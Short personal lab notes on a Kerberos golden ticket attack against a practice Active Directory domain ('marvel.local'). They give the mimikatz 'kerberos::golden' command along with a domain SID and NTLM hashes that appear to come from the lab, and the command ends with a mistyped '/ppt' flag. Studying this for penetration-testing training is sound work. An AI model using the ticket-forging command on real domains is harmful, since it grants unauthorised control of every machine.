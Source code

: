 ktbtgt : account that generate tickets 
if i have that account ; i can be the one generating those tickets
i can access any service 
then i can access any machine yooooooooooooooo

![[Pasted image 20240804201243.png]]

sid and krbtgt account hash

![[Pasted image 20240804201447.png]]
S-1-5-21-1205708261-1579634566-480811515
admin ntlm :7816cd5b49abcae416dff10bef04626a
we need krbtgt ntlm : 660fb3a30ef73c3a23f9c8f2304089d6

![[Pasted image 20240804201716.png]]
kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-1205708261-1579634566-480811515 /krbtgt:660fb3a30ef73c3a23f9c8f2304089d6 /id:500 /ppt

for username u could put any name
ptt:pass the ticket

![[Pasted image 20240804201810.png]]
#### any machine
![[Pasted image 20240804201837.png]]
we utilizing the session with the golden ticket we just created.


![[Pasted image 20240804201936.png]]

like this : 
![[Pasted image 20240815121621.png]]

#### silver ticket ?